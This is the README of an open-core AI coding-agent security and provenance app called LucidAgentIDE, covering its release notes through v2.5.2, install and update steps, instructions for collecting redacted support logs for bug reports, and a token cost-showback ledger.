<!--
  SEO / discovery metadata. GitHub renders this block invisibly; search engines, raw-file
  crawlers, and AI agents that read README.md pick it up. Repo TOPICS (set in repo settings)
  are the strongest GitHub-search signal - mirror these keywords there too.

  LucidAgentIDE - a fail-closed security, provenance, and memory layer around oh-my-pi (omp).
  Topics: ai-agent-security, prompt-injection-defense, llm-security, agent-observability,
  provenance, duckdb, kv-cache, prompt-caching, asksage, government-ai, cui, fips,
  personalization-knowledge-graph, ai-code-attribution, cost-showback, chatgpt-import,
  monaco, electron, bun, typescript, oh-my-pi, omp, agentic-coding, secure-ai-coding-assistant.
-->
<meta name="description" content="LucidAgentIDE - a fail-closed security, provenance, and memory layer around oh-my-pi (omp): prompt-injection defense, trust labeling, provenance-backed memory, sovereignty-aware model governance, AI-authorship attribution, one-command ChatGPT/Claude/Gemini migration, cross-model cost showback, and a read-write IDE where even Save is scanned." />
<meta name="keywords" content="AI agent security, prompt injection defense, fail-closed gate, Unicode scanner, LLM provenance, agent observability, DuckDB telemetry, KV-cache prompt optimization, prompt caching, AskSage government AI gateway, CUI, FIPS, personalization knowledge graph, AI code attribution, AI-authored lines of code, cross-model cost showback, ChatGPT import, Claude, Gemini, Monaco editor, Electron, Bun, TypeScript, oh-my-pi, omp, agentic coding, secure AI coding assistant, agent IDE" />
<meta name="robots" content="index, follow, max-image-preview:large" />
<meta name="googlebot" content="index, follow" />
<meta name="author" content="Nick Chadwick (TechLead187)" />

<div align="center">



<br/>



<br/>

<a href="https://github.com/mlcyclops/lucidagentide/actions/workflows/ci.yml"></a>
<a href="https://github.com/mlcyclops/lucidagentide/actions/workflows/codeql.yml"></a>
<a href="https://github.com/mlcyclops/lucidagentide/actions/workflows/build-desktop.yml"></a>
<a href="https://github.com/mlcyclops/lucidagentide/actions/workflows/build-desktop.yml"></a>
<a href="https://github.com/mlcyclops/lucidagentide/actions/workflows/build-desktop.yml"></a>


<br/>

<a href="https://github.com/mlcyclops/lucidagentide/releases/latest/download/LucidAgent-Setup.exe"></a>
<a href="https://github.com/mlcyclops/lucidagentide/releases/latest/download/LucidAgent-mac-arm64.pkg"></a>
<a href="https://github.com/mlcyclops/lucidagentide/releases/latest/download/LucidAgent-mac-x64.pkg"></a>
<a href="https://github.com/mlcyclops/lucidagentide/releases/latest/download/LucidAgent-x86_64.AppImage"></a>
<a href="https://github.com/mlcyclops/lucidagentide/releases/latest"></a>

<sub>⬆ Always the most recent successful release - links auto-update each version (no release yet? they appear after the first tagged build).</sub>

<br/>


<br/>

**A security · provenance · memory layer built _around_ <a href="https://omp.sh">oh-my-pi</a> - not a fork.**
A fail-closed prompt-injection gate, provenance-backed memory, **sovereignty-aware model governance**,
**AI-authorship attribution**, **one-command migration from ChatGPT**, and a **read-write IDE where even
_Save_ is scanned** - wrapped in a polished desktop app, added entirely through omp's hooks, custom tools,
and SDK.

<sub>🔒 <b>What it does is open; how the hard parts work is not.</b> The deepest trust, provenance, and
personalization internals are proprietary and intentionally undocumented here - this README describes the
<i>capabilities and guarantees</i>, not the mechanisms behind them.</sub>

<a href="#-who-its-for"><b>Who it's for</b></a> ·
<a href="#-quick-start"><b>Quick start</b></a> ·
<a href="#-security-model"><b>Security</b></a> ·
<a href="#-token-cost-savings--showback"><b>Cost Savings</b></a> ·
<a href="#-knowledge--rag"><b>Knowledge / RAG</b></a> ·
<a href="#-contributing"><b>Contributing</b></a> ·
<a href="#-roadmap"><b>Roadmap</b></a> ·
<a href="DECISIONS.md"><b>Decisions (ADRs)</b></a>

<br/>

<!-- v2.5 RELEASE BANNER -->
<table align="center" width="100%">
<tr>
<td align="center">

# 🚀 LUCID v2.5.2 is here

<p align="center"><b>🔐 provider keys in your OS vault</b> · <b>🧮 FIPS 140 crypto at rest</b> · <b>📋 NIST SP 800-171 evidence</b> · <b>🪐 an Orbit view for the Knowledge graph</b> · <b>🧩 a Plugins drawer with premium plugins</b> · <b>🎯 one fleet goal with a heartbeat and verified tasks</b> · <b>🕹 <code>lucid hub</code> as a control plane any agent can drive</b> · <b>✍️ Windows installers signed by TECHLEAD 187 LLC</b> · <b>🎮 a paired controller with its own token scope</b> · <b>🔑 OpenAI sign-in by device code</b> · <b>🛡️ Microsoft's container behind the Windows sandbox</b> · <b>🗓 scheduled jobs</b> · <b>🛟 settings that survive a crash</b> · <b>🌐 LAN model servers through the sandbox</b></p>

<a href="https://github.com/mlcyclops/lucidagentide/releases/tag/v2.5.2"></a>
<a href="https://github.com/mlcyclops/lucidagentide/issues/new?template=bug_report.yml"></a>
<a href="#how-to-pull-your-logs"></a>

<p align="center"><sub>v2.5.2 is a bug-fix release on top of 2.5.1: a fresh install defaults to a cloud model and never to an embedding model, local models are strictly your choice, a question the agent asks no longer ends its turn with no reply, the needs-approval pulse stops costing main-thread frames, and the Fleet Orbit's ring is drawn through its spokes. Everything 2.5.1 brought stays: provider keys in an engine-side OS vault, FIPS 140 crypto at rest and the NIST SP 800-171 Rev 3 evidence package. Installers stay signed by TECHLEAD 187 LLC. It is the current stable release, backed by <b>7,300+ tests</b>, and the download buttons above, Homebrew and the in-app updater all point at it. <a href="#-whats-new-in-v252"><b>What's new in 2.5.2</b></a> · <a href="#-whats-new-in-v251"><b>What's new in 2.5.1</b></a> · <a href="#-install-or-update-lucid-v252"><b>How to update, and how to report a bug with screenshots and logs</b></a>.</sub></p>

<p align="center"><sub><b>No beta channel is open right now.</b> Installing 2.5.2 over 2.5.1, 2.5.1-beta.1 or 2.5.0 keeps your settings, sessions and keys.</sub></p>

</td>
</tr>
</table>

</div>

---

## 🚀 Install or update LUCID v2.5.2

> **v2.5.2 is the current stable release** and the repository's Latest: 2.5.1 plus bug fixes, with **7,300+ tests** behind it. What it fixes is in [What's new in v2.5.2](#-whats-new-in-v252).

### Install or update

1. **Already on LUCID?** On Windows the in-app updater offers 2.5.2; its installer carries the TECHLEAD 187 LLC signature (the updater checks it before installing). On macOS run `brew update && brew upgrade --cask lucidagentide` (Homebrew is the macOS update channel, see [Homebrew](#homebrew-macos); the cask is an app cask that also puts `lucid` and `lucid-hub` on PATH). On Linux, download the new AppImage, `.deb` or `.rpm` and install it over the old one. Installing 2.5.2 over 2.5.1, 2.5.0, 2.5.1-beta.1, 2.4.1 or a 2.5.0 beta keeps your settings, sessions and keys; coming from 2.5.0 or older, on the first start your saved keys move into the OS vault (Windows DPAPI, macOS Keychain, Linux Secret Service) without asking you to re-enter them.
2. **New install:** use the download buttons at the top of this page, or open the **[v2.5.2 release](https://github.com/mlcyclops/lucidagentide/releases/tag/v2.5.2)** and pick the file for your machine: the Windows installer or portable `.exe`, the macOS `.pkg` or `.zip` (Apple Silicon or Intel), or the Linux AppImage, `.deb` or `.rpm` (plus an arm64 AppImage).

### Upgrade notes and known issues

- **Windows: turn the sandbox on.** If you have never switched it on, do it from **Security > Runtime sandbox**; it asks for administrator approval once if Windows needs it. If the panel stays on **disclosed** instead of **isolated**, the contained runtime failed its boot check and LUCID fell back safely. That is exactly the report we want: a screenshot of the Runtime sandbox section plus the support zip below.
- **A local model you picked before 2.5.2 may need picking once more.** LUCID now restores a local model only from an explicit picker choice; if you had chosen one before this release, choose it again and it sticks.
- **Going back to 2.5.0 shows saved keys as unset.** 2.5.0 cannot read the OS vault that 2.5.1 moves your keys into, so after a downgrade you enter them again.
- **Judgments start off.** Settings > Judgment defaults to **None**. Opt in to Jev (paste a TypeSafe key) or to your own models there.
- Everything else we already know about is in the **[open bug list](https://github.com/mlcyclops/lucidagentide/issues?q=is%3Aissue+is%3Aopen+label%3Abug)**. Check it before filing, and add a comment with your details if your bug is already there.

### Report a bug

**[Open a new issue](https://github.com/mlcyclops/lucidagentide/issues/new?template=bug_report.yml)** (the form asks for each of these) and include:

1. **Version and machine:** the LUCID version from the **About** button at the bottom of the left rail, your OS and version, and the model and provider you were using.
2. **What happened:** the steps, what you expected, and what you got instead.
3. **Screenshots:** capture the whole window if you can (Windows `Win+Shift+S`, macOS `Cmd+Shift+4` then `Space` to pick a window, Linux `PrtSc`) and paste straight into the issue box. For a sandbox or security problem, include the **Security** panel's **Runtime sandbox** section. For a tool call that was blocked or prompted unexpectedly, turn on **Settings > Developer > Developer mode** and include the **Logs** panel's *Exec / egress gate decisions* section.
4. **Logs:** a support bundle or log files, as described below.

> **Issues are public.** Never paste an API key, token, password, or anything under CUI into an issue, a screenshot, or a log you attach.

### How to pull your logs

**Windows: one command, redacted zip.** Open **PowerShell** (Start, type *PowerShell*) and run:

```powershell
powershell -NoProfile -ExecutionPolicy Bypass -File "$env:LOCALAPPDATA\Programs\LucidAgentIDE\resources\repo\tools\collect-support-logs.ps1"
```

This writes `lucid-support-<date>-<time>.zip` to your Desktop. It collects the engine log, the agent runtime logs from the last 7 days (add `-Days 14` for more), metadata-only telemetry tails, a redacted settings summary, and a system report (OS, versions, and which process owns port 5319). Keys, tokens and passwords are redacted, and the credential vaults are never read. It **does** include your sign-in email, your folder paths, and the last four characters of each configured key, so open the zip and remove anything you would not post publicly. If the script is not at that path, download it and run it from there:

```powershell
irm https://raw.githubusercontent.com/mlcyclops/lucidagentide/master/tools/collect-support-logs.ps1 -OutFile "$env:TEMP\collect-support-logs.ps1"
powershell -NoProfile -ExecutionPolicy Bypass -File "$env:TEMP\collect-support-logs.ps1"
```

**macOS and Linux: attach the log files.** No collector script yet, so zip these by hand:

| Log | What it shows | macOS | Linux |
| :-- | :-- | :-- | :-- |
| Engine log | startup, crashes, port and sandbox errors | `~/Library/Application Support/lucidagentide-desktop/engine.log` | `~/.config/lucidagentide-desktop/engine.log` |
| Runtime stderr | why an agent process exited | `~/.omp/lucid-acp.log` | `~/.omp/lucid-acp.log` |
| Runtime daily logs | provider errors, HTTP status, model id | newest one or two `~/.omp/logs/omp.<date>.<pid>.log` | same |

```bash
# macOS
cd ~ && zip -j ~/Desktop/lucid-logs.zip "Library/Application Support/lucidagentide-desktop/engine.log" .omp/lucid-acp.log $(ls -t .omp/logs/omp.*.log | head -2)
# Linux
cd ~ && tar czf ~/lucid-logs.tar.gz .config/lucidagentide-desktop/engine.log .omp/lucid-acp.log $(ls -t .omp/logs/omp.*.log | head -2)
```

These files are **not** redacted. Search them for `sk-`, `Bearer`, `token` and `key` before you attach them. On Windows the same files live at `%APPDATA%\lucidagentide-desktop\engine.log` and `%USERPROFILE%\.omp\`, and an instance started on a non-default port writes to `lucidagentide-desktop-<port>` instead.

**Never attach these:** `~/.omp/lucid-gui.json` (holds provider keys in plain text), `~/.omp/agent/agent.db` and `~/.omp/lucid-cred-vault/` (your credential vaults), or anything under `~/.omp/logs/http-400-requests/` (a full copy of the rejected request, including your prompt and file contents).

---

## 💰 Token Cost Savings & Showback

<div align="center">

<table><tr><td>

> **Real-time cost visibility across every model and session.**
>
> LucidAgentIDE's **Cost & Savings Ledger** (P10.2 · [ADR-0011](DECISIONS.md)) tracks token usage,
> estimated cache savings, and per-model cost breakdowns - giving you full showback visibility over
> your AI spend. No surprises, no black-box billing.

<br/>

| Metric | Value |
|:--|--:|
| **Total Spend (all models)** | **$493.21** |
| **Est. Cache Savings** | **$3,190.65** *(87% off full price)* |
| **Cache Hit-Rate** | **97%** |
| **Tokens Processed** | **419.22M** across 4,049 turns |
| **Models Used** | **13** across 1,319 sessions |
| **Workspace Activity (July 2026)** | **+26.6k / -520** lines across 187 files |

<br/>

**Per-model breakdown** *(top model · 12 more in the ledger):*

| Model | Turns | Tokens | Cost | Saved | Cache % |
|:--|--:|--:|--:|--:|--:|
| claude-fable-5 | 662 | 314.63M | $398.85 | $2,789.31 | **99%** |

</td></tr></table>

<table>
<tr>
<td align="center" valign="top">

<br/>
<sub><b>↑ Cost &amp; Savings Ledger</b> - spend, cache savings, and cost per model, live</sub>
</td>
<td align="center" valign="top">

<br/>
<sub><b>↑ AI-authored Code Ledger</b> - which model wrote which lines, by repo &amp; identity</sub>
</td>
</tr>
</table>

</div>

<br/>

**Key capabilities:**

- 📊 **Cross-model cost ledger** - unified spend view across Claude, GPT, Gemini, and all AskSage-routed models
- 💵 **Estimated cache savings** - see how much the KV-cache-optimized prompt prefix saves you in real dollars
- 📈 **Cache hit-rate tracking** - per-model cache efficiency metrics updated in real time
- 🔍 **Per-session drill-down** - break costs down by model, turn count, and token volume
- 🏷️ **Showback-ready** - built for teams that need to attribute AI costs to projects or users
- 🪪 **AI-authored code ledger** - a tamper-evident count of *which model wrote which lines*, per repo and identity (authorship attribution, not just git activity)

The Main GUI ledger records only live, successfully completed write and edit calls from the Main session, not shared utility sessions. Edit counts come from omp's applied diff, including every `replace_all` occurrence; preview truncation does not reduce them. Failed, rejected, quarantined, canceled, and replayed calls add no sample. Writes retain the existing convention: all written content lines are additions. Existing historical samples are not rewritten. See ADR-0451 and `make demo-P-LOC.5`.

> **🏛️ Enterprise rollups (premium, coming soon).** A separately-licensed add-on rolls this showback
> up into executive **BI dashboards** - Power BI (GCC-High), QuickSight, Looker, SharePoint, or an
> airgap-friendly single-file HTML view - and adds **loop-efficiency and ROI** reporting per model and
> per program: cost-per-outcome, productivity, and security posture in one pane for the CFO / CIO / CISO.
> Read-only and **metadata-only** by construction (no code, prompts, or CUI leave the host); the
> analytics methodology is proprietary.

> **🛡️ Central policy & SIEM audit (premium, coming soon).** The same per-action safety the app enforces
> locally - the exec-approval gate and the loop's Speed↔Risk dial - becomes **centrally governable** by an
> org admin through the tools you already run (**Group Policy / Intune / Jamf / Ansible**): set and **lock**
> the risk posture fleet-wide, and stream a **metadata-only security-audit feed** to your **SIEM**
> (Splunk, Elastic, ACAS, and AWS / Azure / GCP security logging) for SOC visibility. The enabling seams
> are in this source-available core (managed-config + an audit-export interface); the policy templates and SIEM
> connectors are a separately-licensed add-on. Metadata-only by construction - no code, prompts, or CUI
> leave the host.

---

##  What's new in v2.5.2

> **🔧 A bug-fix release.** v2.5.2 is 2.5.1 plus the fixes merged since (#570, #572, #574, #576). No new product surface; the Windows installers stay signed by **TECHLEAD 187 LLC**.
>
> **➡️ Install it:** [github.com/mlcyclops/lucidagentide/releases/tag/v2.5.2](https://github.com/mlcyclops/lucidagentide/releases/tag/v2.5.2). It is the repository's Latest release: the download buttons, the in-app updater and Homebrew follow it. Installing it over 2.5.1, 2.5.0 or 2.5.1-beta.1 keeps your settings, sessions and sign-ins.

- **☁️ A fresh install opens on a cloud model** - the automatic default only ever picks a cloud model; with none signed in yet, the composer asks you to choose instead of running on a local model you never picked, and the best cloud model is selected as soon as a provider signs in. A local model is restored only when you chose it in the picker. *(P-MODEL.9, [ADR-0498](DECISIONS.md), #570)*
- **🧲 Embedding models never chat** - an Ollama embedding or reranker model (for example `nomic-embed-text`) is never the default, a fallback, a remembered pick or the `/goal` checker. *(P-MODEL.9, [ADR-0498](DECISIONS.md), #570)*
- **🔄 "No response" offers a fix** - a turn that comes back empty right after a sign-in says why and offers a one-click provider refresh. *(P-MODEL.9, #570)*
- **❓ A question no longer ends the turn** - omp's multiple-choice `ask` tool is off in every ACP session (Main, spokes and `lucid acp` for IDEs), so the agent asks in its reply instead of a dialog LUCID cannot show, which used to end the turn "Done" with no reply. *(P-ASK.1, [ADR-0523](DECISIONS.md), #572)*
- **🔴 A cheaper needs-approval pulse** - the red pulse on a card, the dock pill and a census pip animates only opacity, so a waiting approval no longer repaints the window every frame. *(P-GLOW.1, [ADR-0524](DECISIONS.md), #574)*
- **🪐 The Fleet Orbit's ring is back** - the inner orbit ring draws through its spokes instead of as a dashed vertical line, and follows a window resize. *(#575, #576)*

---

##  What's new in v2.5.1

> **🔐 Your keys in the OS vault, FIPS 140 crypto, and evidence an assessor can read.** v2.5.1 is 2.5.1-beta.1 promoted to stable with its upgrade review fixes, plus staged prompts that keep their pasted images and an Orbit view for the Knowledge graph. The Windows installers stay signed by **TECHLEAD 187 LLC**.
>
> **➡️ Install it:** [github.com/mlcyclops/lucidagentide/releases/tag/v2.5.1](https://github.com/mlcyclops/lucidagentide/releases/tag/v2.5.1). Superseded by v2.5.2, which the download buttons, the in-app updater and Homebrew now follow. Installing it over 2.5.0 or 2.5.1-beta.1 keeps your settings, sessions and sign-ins.

**Credentials and compliance (beta.1)**

- **🔐 An engine-side OS vault** - provider keys, account keys, MCP tokens and the TURN credential move out of `lucid-gui.json` into a DPAPI, Keychain or Secret Service sealed vault on the first engine start, with no re-entry. *(P-VAULT-KEYS.1, [ADR-0472](DECISIONS.md))*
- **🧮 FIPS 140 crypto at rest** - at-rest crypto runs through the OS module (Windows CNG, Apple corecrypto, OpenSSL FIPS) and says honestly whether it is in FIPS mode. *(P-FIPS.1, [ADR-0473](DECISIONS.md))*
- **🗄 One vault, listed and backed up** - the older safeStorage credentials drain into one v2 vault; Settings lists every entry with its date, source and last four, and exports a passphrase-encrypted `.lucidvault` backup. *(P-VAULT-V2.1, P-VAULT-UI.1, [ADR-0474, ADR-0475](DECISIONS.md))*
- **🤫 Secrets never go through chat** - the agent asks for a secret through a masked LUCID dialog; a workspace `.env` imports into the vault, is blanked and gitignored; enterprise vault destinations plug in through the add-on. *(P-SECRET-INTAKE.1, P-VAULT-ENV.1, P-VAULT-DEST.1, [ADR-0476 to ADR-0478](DECISIONS.md))*
- **📋 NIST SP 800-171 Rev 3 evidence** - a control matrix with a Rev 2 cross-reference, an assessor guide, a POA&M and a live evidence report. *(P-COMPLY.1, [ADR-0479](DECISIONS.md))*
- **🛟 The window recovers its own renderer** - a dead renderer is logged with its reason and the app reloads onto the still-running engine. *(P-RECOVER.4, [ADR-0481](DECISIONS.md))*

**Since beta.1**

- **🖼 Staged prompts keep their images** - a queued prompt owns the images pasted with it, and Update pulls one back into the composer to edit, in Main and in fleet spokes. *(P-QUEUE-IMG.1, [ADR-0469](DECISIONS.md))*
- **🪐 An Orbit view for the Knowledge graph** - a Flat or Orbit toggle; Orbit stacks nodes by dependency layer and lights a node's full upstream and downstream lineage, and a ranked search finds nodes by name. *(P-KG-ORBIT.1, [ADR-0470](DECISIONS.md))*
- **🕸 A flat graph that stays readable** - big graphs open fitted with hub labels, and code side panel paths stay on one line. *(P-KG-FLAT.1, [ADR-0471](DECISIONS.md), P-KG-POLISH.1)*
- **🪟 Vault fixes on locked-down Windows** - a private folder is accepted when a new folder carries explicit SYSTEM or Administrators entries, and a refusal names the accounts holding access. *(#555)*

---

##  What's new in v2.5.0

> **🧩 Plugins, a fleet goal, and a terminal hub any agent can drive.** v2.5.0 is beta.1 through beta.4 promoted to stable, plus everything merged since beta.4: the `lucid hub` control plane, the AOS-1 fleet goal with a heartbeat and verified tasks, the headed-browser fix, and the Plugins drawer with the premium plugin marketplace. The Windows installers stay signed by **TECHLEAD 187 LLC**.
>
> **➡️ Install it:** [github.com/mlcyclops/lucidagentide/releases/tag/v2.5.0](https://github.com/mlcyclops/lucidagentide/releases/tag/v2.5.0). Superseded by v2.5.1, which the download buttons, the in-app updater and Homebrew now follow. Installing it over 2.4.1, 2.4.0 or a 2.5.0 beta keeps your settings, sessions and sign-ins.

**Plugins (beta.4)**

- **🧩 A Plugins drawer in the Preview panel** - a Plugins button opens a drawer with Premium and Free tabs and Civilian and Government plugins; the old marketplace modal's rows move to Free beside the built-ins. *(P-PLUGINS.1, [ADR-0461](DECISIONS.md))*
- **🔏 Signed plugin packages** - a `.lplugin` installs only through fail-closed manifest, hash, signature and scanner gates, and a running plugin opens in its own Preview tab. *(P-PLUGINS.2, [ADR-0462](DECISIONS.md))*
- **🛒 Premium plugins at $29.99** - checkout through Stripe and your LUCID account, a Government access gate, and an owner Marketplace Dashboard. *(P-PLUGINS.3-6, [ADR-0463 to ADR-0466](DECISIONS.md))*

**Fleet (beta.2)**

- **🎯 One fleet goal with a heartbeat** - a standing goal with success criteria and a mandatory spend and time budget, a 10 s engine heartbeat the orbit reads as alive, late or dead, and stalled spokes reaped. *(P-AOS.1, [ADR-0452](DECISIONS.md))*
- **✅ Verified tasks** - tasks under the goal with an output contract and acceptance checks, one per idle spoke in dependency order, command checks verified in a separate fail-closed turn, and your review in the orbit. *(P-AOS.2, [ADR-0453](DECISIONS.md))*

**The `lucid hub` terminal (beta.1)**

- **🕹 A control plane** - named spaces with stable ids, tabs behind a clickable rail, Agents and Spaces decks, a per-lane priority, a deck strip and a fuzzy palette, all driven by `lucid hub <cmd>` through a loopback, token-gated control server, with the `lucid-hub` agent skill. *(P-TUI.3-6, [ADR-0433 to ADR-0436](DECISIONS.md))*

**Fixes (beta.2 and beta.3)**

- **🪟 The agent's browser shows up** - the headed browser no longer comes up as a white, frameless box on Windows. *(P-BROWSER.5, [ADR-0456](DECISIONS.md))*
- **🕘 Timeline, first turn, steps and zoom** - the Timeline no longer opens blank on a large corpus, the first turn no longer reads "Reconnected", tool steps read as separate paragraphs, the Preview zoom moves in 10% steps, and Creator jobs reach the Creator ledger again. *(P-TL.4, P-STEPTEXT.1)*
- **🧭 Smaller fixes** - Jobs sheet lane targets carry their repo, subagent rows show the agent's intent line, the `lucid hub` demos pass on Windows, and discovery files left by killed engines are cleaned up.
- **📱 A hardened phone PWA** - the LUCID Remote phone app is hardened against hostile host values. *(#544)*

**Release**

- **🧪 A sturdier signed-build gate** - the air-gap check compares Authenticode image digests, so the two separately signed copies of the bundled bun pass as the same image; proven by a signed test run with all four legs green. *(P-RELEASE.9, [ADR-0468](DECISIONS.md))*

**Tests**

- **🧪 7,300+ tests at release** - the Windows test gate ran 7,256 tests across 535 files (7,244 pass, 0 fail), the harness suite ran 2,251 tests across 190 files, and the scanner sidecar passed its 57.

---

##  What's new in v2.4.1

> **🔧 A patch release: session switching that keeps its word, honest AI-LOC counting, a Homebrew app cask.** v2.4.1 is v2.4.0 plus the bug fixes merged since (#514, #516): the five session-switch failures reported in #460 are closed, the AI-LOC ledger counts only edits and writes that actually completed, and the macOS cask installs the app from the release `.zip` and puts `lucid` on PATH. No new product surface beyond that launcher convenience; the Windows installers stay signed by **TECHLEAD 187 LLC**.
>
> **➡️ Install it:** [github.com/mlcyclops/lucidagentide/releases/tag/v2.4.1](https://github.com/mlcyclops/lucidagentide/releases/tag/v2.4.1). Superseded by v2.5.0, which the download buttons, the in-app updater and Homebrew now follow. Installing it over 2.4.0, a 2.4.0 beta or 2.3.1 keeps your settings, sessions and sign-ins.

**Session switching (#460, cases 1-5)**

- **🛑 "Stop it and switch" really stops the loop** - a forced session switch now stops a running `/goal` loop and waits for it to unwind before the session changes. Before, the maker turn was canceled but the loop lived on inside the newly loaded session. *(#507, case 1)*
- **🤖 Agent automations no longer block a switch** - the "an automation is running" blocker fires only for automations that own Main's session (goal-kind). Agent-kind automations run in their own child pipeline and no longer refuse a switch. *(#509, case 2)*
- **📡 The engine's answer decides what the thread shows** - a busy `409` between turns reloads the holder's transcript, a held `409` attaches to the holding spoke per the [ADR-0404](DECISIONS.md) registry, and no answer is never treated as a completed switch. *(#510, cases 3 and 4)*
- **⏱ A late preflight cannot win** - clicking session A then B quickly can no longer let A's late preflight land on top of B: `openSession` takes a generation number before any await and discards superseded plans. *(#511, case 5)*

**AI-LOC ledger**

- **🔗 Internal URIs are not code** - `xd://` device calls, and other internal URIs such as `local://`, `agent://` and `skill://`, are never counted as AI-authored code in the AI-LOC ledger or shown as an inline diff or preview. *(#489, fixes #483)*
- **✅ Only completed edits count** - the ledger counts only successfully completed edits and writes, using the tool's actual result diff (per-file results when present); blocked, failed and duplicate completions add nothing. Edit previews in chat and Fleet share one canonical extractor. *(#492, P-LOC.5, [ADR-0451](DECISIONS.md))*

**Homebrew (macOS)**

- **🍺 An app cask over the release `.zip`** - the cask no longer wraps the `.pkg` (no deprecated `allow_untrusted`) and is pinned per release; the `.pkg` assets still ship for MDM. A `make demo-P-BREW.1` check pins the naming contract. *(#453)*
- **⌨️ `lucid` on PATH, plus `lucid-hub`** - a Homebrew install puts `lucid` on your PATH and adds a `lucid-hub` command wrapper. *(#468)*

**CI**

- **⏲ Explicit test budgets** - the four tests the Windows CI gate was killing under load now carry explicit budgets. *(#513)*

---

##  What's new in v2.4.0

> **✍️ The first signed Windows release.** v2.4.0 is beta.1 and beta.2 promoted to stable, plus everything merged since beta.2: every Windows installer and executable is now Authenticode-signed by **TECHLEAD 187 LLC**, and a paired external controller gets its own token scope. It is the first stable release since v2.3.1.
>
